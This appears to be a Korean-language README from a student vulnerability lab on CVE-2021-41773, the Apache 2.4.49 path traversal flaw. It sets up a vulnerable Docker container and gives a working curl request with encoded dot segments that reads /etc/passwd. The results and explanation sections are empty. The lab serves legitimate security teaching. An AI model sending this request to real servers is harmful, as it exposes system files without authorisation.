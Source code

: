 # CVE-2021-41773 [Apache HTTP Server Path Traversal & RCE]

> 화이트햇 스쿨 3기 - [이준영 (@ljyoung04)](https://github.com/ljyoung04)

<br/>

## 요약

- Apache HTTP Server 2.4.49 버전의 경로 정규화 변경 사항에서 결함이 발견되었습니다.
- 이 결함을 사용하여 Path Traversal 공격을 수행하여 Alias와 유사한 지시문으로 구성된 디렉터리 외부의 파일에 접근할 수 있습니다.
- 또한 CGI 스크립트 실행이 활성화되어 있다면 RCE가 가능할 수도 있습니다.
- 실제로 악용된 사례가 있으며 오직 Apache 2.4.49 버전에만 해당됩니다.
- 이 취약점에 대한 수정이 이루어졌지만, 수정이 불완전하여 CVE-2021-42013으로 이어졌습니다.

<br/>

## 환경 구성 및 실행

다음 명령어를 입력하여 취약한 도커 환경을 구축할 수 있다.

```
$ sudo docker compose up -d
```

```
$curl localhost:8080
<meta charset="UTF-8" />
<h1>WHS 3기 이준영</h1>
<h2>CVE-2021-41773 TEST</h2>
$
```

아래와 같이 입력하여 Path Traversal 공격을 수행할 수 있다.

```
curl --path-as-is -v http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

<img src="https://github.com/ljyoung04/kr-vulhub/tree/main/Apache/CVE-2021-41773/image.png">
<br/>

## 결과

<br/>

## 설명
